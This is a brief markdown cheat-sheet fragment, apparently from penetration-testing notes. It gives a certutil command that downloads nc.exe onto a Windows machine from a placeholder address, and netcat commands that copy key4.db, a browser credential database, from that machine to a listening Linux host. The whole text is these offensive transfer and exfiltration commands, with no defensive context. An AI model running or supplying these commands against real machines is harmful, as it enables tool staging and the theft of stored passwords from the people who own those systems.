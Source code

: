 ### Download file in Windows Machine.

`certutil -urlcache -f http://<TARGET_IPADDRESS:<PORT>/nc.exe nc.exe`

### Transfer file from Windows Machine to Linux (netcat)

`nc -nv <TARGET_IPADDRESS <PORT> < key4.db (on windows machine)`

`nc -nvlp 443 > key4.db (on Linux Machine)`

